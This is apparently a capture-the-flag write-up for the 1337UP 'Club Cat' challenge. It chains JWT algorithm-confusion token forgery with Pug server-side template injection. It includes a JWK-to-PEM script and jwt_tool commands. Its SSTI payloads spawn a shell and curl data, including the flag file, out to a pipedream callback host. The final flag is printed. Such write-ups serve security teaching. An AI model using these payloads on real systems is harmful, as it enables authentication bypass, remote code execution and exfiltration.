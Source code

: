 **Key Confusion Attack with JWT and Pug SSTI**
---
## **Description**
People are always complaining that there's not enough cat pictures on the internet.. Something must be done!!
<br></br>

1. Identifying the Attack Surface
While reading through the source code, I discovered that the RS256 JWT keys were publicly accessible via the /jwks.json route. 
<img src="https://github.com/Yazan03/CTF-Writeups2024/blob/main/1337UP%20CTF/Club%20Cat/images/Capture.PNG">
<br></br>
This gives us the ability to perform a key confusion attack, as described here
<br></br>
https://portswigger.net/web-security/jwt/algorithm-confusion

Further investigation revealed a route called /cats, which processes a Pug SSTI (Server-Side Template Injection) vulnerability in the username parameter. This username is directly extracted from the JWT token.
<br></br>
<img src="https://github.com/Yazan03/CTF-Writeups2024/blob/main/1337UP%20CTF/Club%20Cat/images/2.PNG">
<br></br>
https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection#pugjs-nodejs 
<br></br>
2. Attack Strategy
Based on the information, the attack surface could be summarized as follows:

Retrieve the RS256 keys from the /jwks.json endpoint.
Perform a key confusion attack to inject a payload into the username.
Exploit the Pug SSTI vulnerability.
Gain Remote Code Execution (RCE) and read the flag.
<br></br>

3. Exploiting RS256 Key Confusion
To proceed, I used a script to convert the RS256 key into a .pem file, which could be used with jwt_tool. This allowed me to manipulate the JWT token.
```py
import base64
from cryptography.hazmat.primitives.asymmetric import rsa
from cryptography.hazmat.primitives import serialization
from cryptography.hazmat.primitives.asymmetric.rsa import RSAPublicNumbers


jwk = {
    "kty": "RSA",
    "n": "w4oPEx-448XQWH_OtSWN8L0NUDU-rv1jMiL0s4clcuyVYvgpSV7FsvAG65EnEhXaYpYeMf1GMmUxBcyQOpathL1zf3_Jk5IsbhEmuUZ28Ccd8l2gOcURVFA3j4qMt34OlPqzf9nXBvljntTuZcQzYcGEtM7Sd9sSmg8uVx8f1WOmUFCaqtC26HdjBMnNfhnLKY9iPxFPGcE8qa8SsrnRfT5HJjSRu_JmGlYCrFSof5p_E0WPyCUbAV5rfgTm2CewF7vIP1neI5jwlcm22X2t8opUrLbrJYoWFeYZOY_Wr9vZb23xmmgo98OAc5icsvzqYODQLCxw4h9IxGEmMZ-Hdw",
    "e": "AQAB"
}


n = int.from_bytes(base64.urlsafe_b64decode(jwk["n"] + "=="), byteorder='big')
e = int.from_bytes(base64.urlsafe_b64decode(jwk["e"] + "=="), byteorder='big')


public_numbers = RSAPublicNumbers(e, n)
public_key = public_numbers.public_key()


pem = public_key.public_bytes(
    encoding=serialization.Encoding.PEM,
    format=serialization.PublicFormat.SubjectPublicKeyInfo
)

# Save to a .pem file
with open("public_key.pem", "wb") as pem_file:
    pem_file.write(pem)

print("Public RSA key saved to public_key.pem")
```
<br></br>
```text
-----BEGIN PUBLIC KEY-----
MIIBIjANBgkqhkiG9w0BAQEFAAOCAQ8AMIIBCgKCAQEAw4oPEx+448XQWH/OtSWN
8L0NUDU+rv1jMiL0s4clcuyVYvgpSV7FsvAG65EnEhXaYpYeMf1GMmUxBcyQOpat
hL1zf3/Jk5IsbhEmuUZ28Ccd8l2gOcURVFA3j4qMt34OlPqzf9nXBvljntTuZcQz
YcGEtM7Sd9sSmg8uVx8f1WOmUFCaqtC26HdjBMnNfhnLKY9iPxFPGcE8qa8SsrnR
fT5HJjSRu/JmGlYCrFSof5p/E0WPyCUbAV5rfgTm2CewF7vIP1neI5jwlcm22X2t
8opUrLbrJYoWFeYZOY/Wr9vZb23xmmgo98OAc5icsvzqYODQLCxw4h9IxGEmMZ+H
dwIDAQAB
-----END PUBLIC KEY-----
```
<br></br>

4. JWT Token Manipulation
Next, I created an account and captured the JWT token. Afterward, I used jwt_tool to craft a custom token that exploited the SSTI vulnerability by injecting arbitrary code into the username field.
<img src="https://github.com/Yazan03/CTF-Writeups2024/blob/main/1337UP%20CTF/Club%20Cat/images/3.PNG">
<img src="https://github.com/Yazan03/CTF-Writeups2024/blob/main/1337UP%20CTF/Club%20Cat/images/4.PNG">

<br></br>
And then use jwt_tool
```sh
$ python3 jwt_tool.py eyJ0eXAiOiJKV1QiLCJhbGciOiJSUzI1NiJ9.eyJ1c2VybmFtZSI6ImFzZCJ9.WtNj-PzZesPRM7CZqAXXauI3TV6DcliuJbVzFOaqWajtLk96VzBjMTxap5hT9d09xraiu2CgCoX1dEg8ACpyPWfmOmxgLdwZvnL1qjjhv3ErwakYSJsn-Fe8WGeqDu4ZeSxjwR7xFjQXSBlvG9WytuWlpNBG6jM_6tY12euNs2oUW8VMV2HJM_GOEfwOMrb8lsV5JChgE3Eea9Uqa-DSpNkBvOlgWXo1gjgmlFP6TWDvxLA24O986jwFlBibxvVOOlsYhXuqiZUI-ynSxT8ZdivLYgOG58oxtvvbFuiXYc9fnSXC97eMnx_kXVE1RrYzQD_ZPC3o4CaqFK465_RK2g -X k -pk ~/Downloads/web/app/public_key.pem -I -pc username -pv "#{7*7}"

eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VybmFtZSI6IiN7Nyo3fSJ9.lsLiuUrEkr81Z73IyAJmF7gTJfp9WwqErjPlr9e9UvI
```
<br></br>
<img src="https://github.com/Yazan03/CTF-Writeups2024/blob/main/1337UP%20CTF/Club%20Cat/images/6.PNG">
<br></br>
It worked!, now let's see where the flag is, From the Dockerfile we can see that the flag is randomized and it's in the root directory.
<br></br>
<img src="https://github.com/Yazan03/CTF-Writeups2024/blob/main/1337UP%20CTF/Club%20Cat/images/7.PNG">
<br></br>
```sh
─$ python3 jwt_tool.py eyJ0eXAiOiJKV1QiLCJhbGciOiJSUzI1NiJ9.eyJ1c2VybmFtZSI6ImFzZCJ9.WtNj-PzZesPRM7CZqAXXauI3TV6DcliuJbVzFOaqWajtLk96VzBjMTxap5hT9d09xraiu2CgCoX1dEg8ACpyPWfmOmxgLdwZvnL1qjjhv3ErwakYSJsn-Fe8WGeqDu4ZeSxjwR7xFjQXSBlvG9WytuWlpNBG6jM_6tY12euNs2oUW8VMV2HJM_GOEfwOMrb8lsV5JChgE3Eea9Uqa-DSpNkBvOlgWXo1gjgmlFP6TWDvxLA24O986jwFlBibxvVOOlsYhXuqiZUI-ynSxT8ZdivLYgOG58oxtvvbFuiXYc9fnSXC97eMnx_kXVE1RrYzQD_ZPC3o4CaqFK465_RK2g -X k -pk ~/Downloads/web/app/public_key.pem -I -pc username -pv "#{function(){localLoad=global.process.mainModule.constructor._load;sh=localLoad(\"child_process\").exec('curl https://eogce8tgujfgk5f.m.pipedream.net?=\`ls /|base64\`')}()}"


[+] eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VybmFtZSI6IiN7ZnVuY3Rpb24oKXtsb2NhbExvYWQ9Z2xvYmFsLnByb2Nlc3MubWFpbk1vZHVsZS5jb25zdHJ1Y3Rvci5fbG9hZDtzaD1sb2NhbExvYWQoXCJjaGlsZF9wcm9jZXNzXCIpLmV4ZWMoJ2N1cmwgaHR0cHM6Ly9lb2djZTh0Z3VqZmdrNWYubS5waXBlZHJlYW0ubmV0Pz1gbHMgL3xiYXNlNjRgJyl9KCl9In0.PxWfN3-n3u4IxcWorBADNw52W-NFJ491nrf5ATz9WNs 
```
And we got a callback
<br></br>
<img src="https://github.com/Yazan03/CTF-Writeups2024/blob/main/1337UP%20CTF/Club%20Cat/images/8.PNG">
<br></br>
Then we got the flag file name: 
<br></br>
<img src="https://github.com/Yazan03/CTF-Writeups2024/blob/main/1337UP%20CTF/Club%20Cat/images/9.PNG">
<br></br>

5. Getting the Flag

```sh
$ python3 jwt_tool.py eyJ0eXAiOiJKV1QiLCJhbGciOiJSUzI1NiJ9.eyJ1c2VybmFtZSI6ImFzZCJ9.WtNj-PzZesPRM7CZqAXXauI3TV6DcliuJbVzFOaqWajtLk96VzBjMTxap5hT9d09xraiu2CgCoX1dEg8ACpyPWfmOmxgLdwZvnL1qjjhv3ErwakYSJsn-Fe8WGeqDu4ZeSxjwR7xFjQXSBlvG9WytuWlpNBG6jM_6tY12euNs2oUW8VMV2HJM_GOEfwOMrb8lsV5JChgE3Eea9Uqa-DSpNkBvOlgWXo1gjgmlFP6TWDvxLA24O986jwFlBibxvVOOlsYhXuqiZUI-ynSxT8ZdivLYgOG58oxtvvbFuiXYc9fnSXC97eMnx_kXVE1RrYzQD_ZPC3o4CaqFK465_RK2g -X k -pk ~/Downloads/web/app/public_key.pem -I -pc username -pv "#{function(){localLoad=global.process.mainModule.constructor._load;sh=localLoad(\"child_process\").exec('curl https://eogce8tgujfgk5f.m.pipedream.net?=\`ls /flag_Gx4wVbEc1fxN9ztM.txt|base64\`')}()}"


[+] eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VybmFtZSI6IiN7ZnVuY3Rpb24oKXtsb2NhbExvYWQ9Z2xvYmFsLnByb2Nlc3MubWFpbk1vZHVsZS5jb25zdHJ1Y3Rvci5fbG9hZDtzaD1sb2NhbExvYWQoXCJjaGlsZF9wcm9jZXNzXCIpLmV4ZWMoJ2N1cmwgaHR0cHM6Ly9lb2djZTh0Z3VqZmdrNWYubS5waXBlZHJlYW0ubmV0Pz1gbHMgL2ZsYWdfR3g0d1ZiRWMxZnhOOXp0TS50eHR8YmFzZTY0YCcpfSgpfSJ9.1IMzf-EtCtP7W_oeblc7njtLt6aeSNy5DqxJgeX1KZY 
```
<br></br>
<img src="https://github.com/Yazan03/CTF-Writeups2024/blob/main/1337UP%20CTF/Club%20Cat/images/10.PNG">
<br></br>
```
INTIGRITI{h3y_y0u_c4n7_ch41n_7h053_vuln5_l1k3_7h47}
```
